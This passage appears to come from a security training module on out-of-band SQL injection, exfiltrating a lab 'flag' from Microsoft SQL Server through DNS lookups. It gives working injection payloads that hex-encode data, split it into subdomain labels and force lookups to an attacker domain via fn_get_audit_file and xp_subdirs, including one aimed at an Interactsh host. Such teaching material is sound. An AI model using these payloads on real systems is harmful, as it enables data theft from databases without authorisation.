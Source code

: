 **Note:** Notice how in all of the above payloads we start by declaring `@T` as `VARCHAR` then add our query within it, and then we add it to the domain. This will become handy later on when we want to split `@T` into multiple strings so it fits as a sub-domain. It is also useful to ensure whatever result we get is a string, otherwise it may break our query.

## Limitations

The characters which can be used in domain names are (basically) limited to numbers and letters. In addition to this, labels (the part between dots) can be a maximum of `63` characters long, and the entire domain can be a maximum of `253` characters long. To deal with these limitations, it may be necessary to `split` up data into multiple exfiltration requests, as well as `encode` data into hex or base64 for example.

To bypass this limitation, we can replace the `@T` declaration at the beginning of the above payloads with the following query to ensure the result of the query defined within `@T` gets encoded and split into `2` strings shorter than `63` characters:

```sql
DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63);

```

The payload basically uses an SQL query that declares the variable `@T`, `@A`, and `@B`, then selects `flag` from the `flag` table into `@T`, split the result to `@A` and `@B`, and finally tries to access a URL `@A`. `@B`. `OUR_URL` which we can read through our DNS history.

A final payload example would look like the following:

```sql
DECLARE @T VARCHAR(MAX); DECLARE @A VARCHAR(63); DECLARE @B VARCHAR(63); SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) from flag; SELECT @A=SUBSTRING(@T,3,63); SELECT @B=SUBSTRING(@T,3+63,63); SELECT * FROM fn_get_audit_file('\\'+@A+'.'+@B+'.YOUR.DOMAIN\',DEFAULT,DEFAULT);

```

## Interact.sh

Interactsh ( [Github](https://github.com/projectdiscovery/interactsh)) is an open-source tool you can use for detecting OOB interactions including DNS requests. It works on both Linux and Windows.

You can use the in-browser version by visiting [https://app.interactsh.com](https://app.interactsh.com). It might take a couple of seconds to load up, but once it's ready there will be a domain you can copy to your clipboard.

![image](9jUyAFp0pFgm.png)

As an example, we can enter the following payload (from the list above) into the `User-Agent` vulnerability, which will exfiltrate the flag (hex-encoded) in only one request!

```sql
';DECLARE @T VARCHAR(MAX);DECLARE @A VARCHAR(63);DECLARE @B VARCHAR(63);SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) FROM flag;SELECT @A=SUBSTRING(@T,3,63);SELECT @B=SUBSTRING(@T,3+63,63);EXEC('master..xp_subdirs "\\'+@A+'.'+@B+'.cegs9f52vtc0000z2jt0g8ecwzwyyyyyb.oast.fun\x"');--

```
